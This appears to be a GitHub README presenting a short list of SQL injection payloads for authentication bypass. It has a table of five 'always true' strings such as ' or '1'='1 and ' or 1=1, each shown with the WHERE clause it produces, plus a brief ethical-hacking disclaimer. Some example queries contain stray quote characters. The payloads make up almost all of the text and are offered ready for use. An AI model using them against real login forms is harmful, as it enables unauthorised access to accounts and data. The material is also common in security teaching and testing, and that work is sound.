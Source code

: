 # SQL INJECTION 
### PAYLOAD AND EXAMPLE QUERY

![https://img.shields.io/badge/ETHICAL%20HACKING-TRUE-red](https://img.shields.io/badge/ETHICAL%20HACKING-TRUE-red)

> ! Attention, This Repository For Ethical Hacking 

## Table of contents

1. [Bypass SQL Always True](#alwaystrue)
 
 
 
 
 
 
### 1. Bypass SQL Always True <a name="alwaystrue"></a>

Example of QUERY SQL starting from WHERE, please develop and analyze it yourself.

|PAYLOAD  | EXAMPLE QUERY |
|--|--|
| ```' or '1'='1``` |```WHERE username = '' or '1'='1' AND password = '' or '1'='1';```|
| ```' or username!=''``` |```WHERE username = '' or username!='' AND password = '' or password!='';```|
| ```' or FALSE!=TRUE``` |```WHERE username = '' or FALSE!=TRUE AND password = '' or FALSE!=TRUE;```|
| ```' or TRUE=TRUE``` |```WHERE username = '' or TRUE=TRUE AND password = '' or TRUE=TRUE";```|
| ```' or 1=1``` |```WHERE username = '' or 1=1 AND password = '' or 1=1" ;```|
